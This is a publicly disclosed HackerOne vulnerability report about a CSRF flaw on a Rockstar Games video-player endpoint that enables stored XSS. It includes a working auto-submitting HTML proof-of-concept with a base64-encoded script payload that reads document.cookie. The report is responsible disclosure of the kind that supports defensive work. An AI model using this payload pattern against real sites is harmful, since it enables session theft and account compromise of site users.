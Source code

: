 # CSRF in 'set.php' via age causes stored XSS on 'get.php' - http://www.rockstargames.com/php/videoplayer_cache/get.php'

## Report Details
- **Report ID**: 152013
- **URL**: https://hackerone.com/reports/152013
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-07-18T08:24:10.387Z
- **Disclosed**: 2017-03-10T23:15:18.247Z

## Reporter
- **Username**: nahamsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rockstargames

## Vulnerability Information
Hello,

#Background:
Sending a POST request to set.php with age='PAYLOAD' will cause a stored XSS on the GET.php file (most likely caused by the cookie, since that's what the `age` is based on). For this vulnerability and in order to demonstrate BOTH CSRF and XSS I have written a simple script (tested on firefox)  that automatically sends the request to set.php and redirects you to the vulnerable file:

#POC:

````
<iframe style="display:none" name="csrf-frame" id="csrf-frame"></iframe><form method="POST" action="http://www.rockstargames.com/php/videoplayer_cache/set.php" target="csrf-frame" id="csrf-form" encType="application/x-www-form-urlencoded"><input type="text" name="age" value='<a href=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpOzwvc2NyaXB0Pg==>CLICK ME</a>' /></form><script>document.getElementById("csrf-form").submit();</script><script>var xssframe = document.getElementById('csrf-frame');xssframe.addEventListener("load", function() { window.location='http://www.rockstargames.com/php/videoplayer_cache/get.php'; }); </script>
````

Thanks,
Ben

## Attachments
No attachments
